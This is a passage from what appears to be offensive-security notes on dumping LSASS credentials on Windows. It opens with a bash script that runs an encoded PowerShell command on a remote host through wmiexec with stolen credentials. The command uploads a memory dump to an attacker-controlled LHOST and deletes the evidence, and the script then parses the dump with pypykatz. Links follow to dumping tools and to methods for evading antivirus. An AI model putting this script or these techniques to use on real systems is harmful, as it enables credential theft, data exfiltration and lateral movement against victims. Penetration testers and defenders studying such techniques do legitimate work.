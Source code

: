```bash
kill -9 `netstat -tulpan | grep ${LPORT} | grep python | awk '{ print $7 }' | awk -F/ '{ print $1 }'`
python3 put.py --bind=0.0.0.0 ${LPORT} &

CMD="IWR -Uri http://${LHOST}/out.bin -Method PUT -InFile C:\Windows\Temp\report.docx;rm C:\Windows\Temp\a.exe;rm C:\Windows\Temp\a.dll;rm C:\Windows\Temp\report.docx"
CMD_BASE64=`echo -n ${CMD} | iconv -t UTF-16LE | base64 -w0`

wmiexec.py -silentcommand -nooutput ${CREDS}@${RHOST} "powershell -enc ${CMD_BASE64}"
sleep 30

kill -9 `netstat -tulpan | grep ${LPORT} | grep python | awk '{ print $7 }' | awk -F/ '{ print $1 }'`

bash restore_signature.sh out.bin
pypykatz lsa minidump out.bin

chown ${SUDO_USER}:${SUDO_USER} out.bin
```
{% endcode %}


#### RToolZ

- [https://github.com/OmriBaso/RToolZ](https://github.com/OmriBaso/RToolZ)




## Bypass Saving on Disk Detection

- [https://www.bussink.net/lsass-minidump-file-seen-as-malicious-by-mcafee-av/](https://www.bussink.net/lsass-minidump-file-seen-as-malicious-by-mcafee-av/)
- [https://github.com/k4nfr3/Dumpert](https://github.com/k4nfr3/Dumpert)




## NTFS Transactions



### TransactedSharpMiniDump

- [https://www.cybermongol.ca/operator-research/dump-lsass-with-sharpminidump-ntfs-transactions-uac-bypass-exfil-dmp-file-to-dropbox](https://www.cybermongol.ca/operator-research/dump-lsass-with-sharpminidump-ntfs-transactions-uac-bypass-exfil-dmp-file-to-dropbox)
- [https://github.com/PorLaCola25/TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump)



### CredBandit

- [https://www.cobaltstrike.com/blog/credbandit-a-review-of-a-tool-developed-built-by-the-cobalt-strike-user-community/](https://www.cobaltstrike.com/blog/credbandit-a-review-of-a-tool-developed-built-by-the-cobalt-strike-user-community/)
- [https://github.com/anthemtotheego/CredBandit](https://github.com/anthemtotheego/CredBandit)
- [https://github.com/xforcered/CredBandit](https://github.com/xforcered/CredBandit)
- [https://github.com/xenoscr/compressedCredBandit](https://github.com/xenoscr/compressedCredBandit)
